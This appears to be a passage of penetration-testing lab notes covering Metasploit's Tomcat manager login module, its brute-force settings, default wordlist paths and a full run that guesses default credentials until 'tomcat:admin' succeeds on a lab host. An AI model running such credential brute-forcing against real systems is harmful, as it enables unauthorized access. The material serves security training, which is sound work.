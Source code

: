 #### Advanced Scanner Options
```bash
# Metasploit module options breakdown:
set BLANK_PASSWORDS false          # Try blank passwords for all users
set BRUTEFORCE_SPEED 5             # Speed setting (0-5, 5 = fastest)
set DB_ALL_CREDS false             # Use database stored credentials
set TARGETURI /manager/html        # Manager interface URI
set THREADS 1                      # Concurrent threads (max one per host)
set VERBOSE true                   # Print all attempts for analysis

# Default wordlist locations:
# PASS_FILE: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
# USER_FILE: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
# USERPASS_FILE: /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt

# Proxy traffic through Burp for analysis:
set PROXIES HTTP:127.0.0.1:8080
```

#### Expected Brute Force Output
```bash
[!] No active DB -- Credential data will not be saved!
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:root (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.129.201.58:8180 - LOGIN FAILED: root:vagrant (Incorrect)
[+] 10.129.201.58:8180 - Login Successful: tomcat:admin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
